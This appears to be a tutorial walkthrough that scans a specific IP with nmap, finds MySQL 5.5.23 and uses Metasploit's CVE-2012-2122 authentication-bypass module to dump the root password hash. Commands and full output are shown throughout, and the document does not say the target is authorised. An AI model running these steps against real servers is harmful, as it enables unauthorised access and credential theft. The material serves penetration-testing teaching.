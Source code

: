 # Example: Exploiting old MySQL database with nmap and metasploit
IP Address: `http://188.166.120.53/`

Let's have a look at it!

Run on Kali Linux.

---

Let's install nmap - a port scanning tool:

`$ apt-get update && apt-get install nmap`


`$ nmap -v -A -sV 188.166.120.53`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b7:ca:32:1d:78:a3:9f:c3:4e:12:99:c2:e0:ca:9f:8a (RSA)
|   256 14:47:96:51:48:0d:88:78:0f:ff:d0:a7:29:42:1b:7b (ECDSA)
|_  256 fc:1b:a0:b2:a5:4d:98:2e:c7:d2:20:db:39:6d:72:b4 (ED25519)
3306/tcp open  mysql   MySQL 5.5.23
| mysql-info:
|   Protocol: 10
|   Version: 5.5.23
|   Thread ID: 4
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, LongColumnFlag, SupportsTransactions, IgnoreSigpipes, ConnectWithDatabase, LongPassword, IgnoreSpaceBeforeParenthesis, FoundRows, InteractiveClient, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: /B@XyyrS&cDeSOrqaq7\
|_  Auth Plugin Name: mysql_native_password
```

Okay, so the web server has two open ports, one for ssh and one for mysql. On the more interesting side, we can see that MySQL is version 5.5.23, which is quite old.

![alt text](https://i.imgur.com/AihfEd0.png)

Let's see if there are any publically known vulnerabilities for this version using https://www.cvedetails.com/

We will go to "Vulnerability Search" and search for public exploits

![alt text](https://i.imgur.com/UjYMwWv.png)
![alt text](https://i.imgur.com/QV61z2j.png)

From the search results we gather that `CVE-2012-5612`, `CVE-2012-5611`, and `CVE-2012-2122` seems applicable for MySQL 5.5.23.

We are not really interested in Denial-of-Service (DoS), so let us focus on `CVE-2012-2122`.

Hopping back into the metasploit console:

	msf6 > search CVE-2012-2122


```
Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_authbypass_hashdump  2012-06-09       normal  No     MySQL Authentication Bypass Password Dump


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql_authbypass_hashdump
```

Now we just plug in the module, and let it do its magic:

`msf6 > use auxiliary/scanner/mysql/mysql_authbypass_hashdump`

`msf6 > show options`

```
Module options (auxiliary/scanner/mysql/mysql_authbypass_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  root             yes       The username to authenticate as
```

We need to specify RHOSTS:

`msf6 > set RHOSTS 188.166.120.53`

`msf6 > exploit`

```
[+] 188.166.120.53:3306   - 188.166.120.53:3306 The server allows logins, proceeding with bypass test
[*] 188.166.120.53:3306   - 188.166.120.53:3306 Authentication bypass is 10% complete
[*] 188.166.120.53:3306   - 188.166.120.53:3306 Authentication bypass is 20% complete
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Successfully bypassed authentication after 252 attempts. URI: mysql://root:X@188.166.120.53:3306
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Successfully exploited the authentication bypass flaw, dumping hashes...
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Hash Table has been saved: /root/.msf4/loot/20210412114810_default_188.166.120.53_mysql.hashes_956264.txt
[*] 188.166.120.53:3306   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We have now acquired the hash of the password for the root user. If it is a weak password, it could be crackable in a very finite amount of time.

